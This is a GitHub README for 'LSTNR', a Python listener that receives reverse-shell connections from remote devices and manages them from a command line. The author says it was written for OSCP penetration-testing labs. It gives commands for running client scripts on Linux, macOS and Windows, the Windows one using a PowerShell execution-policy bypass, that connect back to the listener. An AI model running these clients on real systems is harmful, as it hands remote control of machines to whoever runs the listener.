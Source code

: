 # LSTNR
Python server that receives shell connections from remote devices. 

Remote devices can be managed from a Command Line Interface (CLI)

# DISCLAIMER
This is only for testing purposes, not intended for anything illegal. I was testing out ways to manage multiple connections while doing the OSCP labs. #Hobbies

# Download LSTNR

```git clone github.com/bwithe/LSNTR```

# USAGE

1. Start LSTNR
    - `python3 lstnr.py -p <PORT_TO_LISTEN>`

2. Have CLIENT connect to LSTNR
    - Linux / MacOS
      - `bash client.sh -p <LSTNR_SERVER_PORT> -s <LSTNR_SERVER_IP>`
      - `python3 client.py -p <LSTNR_SERVER_PORT> -s <LSTNR_SERVER_IP>`
     
    - Windows
        - `powershell -ep bypass .\client.ps1 -p <LSTNR_SERVER_PORT> -s <LSTNR_SERVER_IP>`

# Screenshot examples:

![windows-kali](https://github.com/user-attachments/assets/d3d4bae8-014c-4e3b-bf83-112939eb8250)

![windows-curl](https://github.com/user-attachments/assets/7e52e3f0-0c24-4f8f-a7da-739802ed4170)

# TROUBLESHOOTING
- If you are having issues closing the LSTNR
```
ps aux | grep lstnr
kill -9 <PID>
```
